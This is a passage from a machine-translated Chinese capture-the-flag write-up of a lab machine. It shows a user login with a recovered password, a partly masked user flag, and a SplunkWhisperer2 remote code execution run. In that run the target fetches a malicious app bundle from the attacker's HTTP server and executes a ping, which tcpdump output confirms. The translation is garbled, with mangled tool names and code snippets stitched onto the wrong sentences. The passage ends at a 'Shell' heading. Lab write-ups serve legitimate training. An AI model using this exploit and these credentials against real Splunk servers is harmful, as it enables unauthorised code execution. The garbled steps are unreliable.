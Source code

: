 原来吉他123是肖恩的密码：

    web@doctor:/var/log$ su - shaun
    Password: 
    shaun@doctor:~$
    

现在我可以访问：`user.txt`

    shaun@doctor:~$ cat user.txt
    4300eefd************************
    

## 外壳作为根

### 列举

想起上面的斯普伦克特权，我回到了斯普伦克页面，在HTTP基本身份验证中尝试了肖恩的信誉，它的工作原理。现在还有更多功能：

[![image-20201101061303774](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20201101061303774.png)](https://0xdf.gitlab.io/img/image-20201101061303774.png)

[_点击查看完整图片_](https://0xdf.gitlab.io/img/image-20201101061303774.png)

### 断续器

我跑去获取本地存储库的副本，然后决定尝试使用简单的测试漏洞。我开始，然后运行漏洞利用：`git clone https://github.com/cnotin/SplunkWhisperer2.git``ping``tcpdump`

    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.6"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpwvtxfq84.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:15:40] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    

在 ，我得到了一个电话：`tcpdump`

    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    06:15:40.494671 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    06:15:40.494729 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64
    

我在漏洞利用窗口中按回车键，它被清理干净了。

### 壳
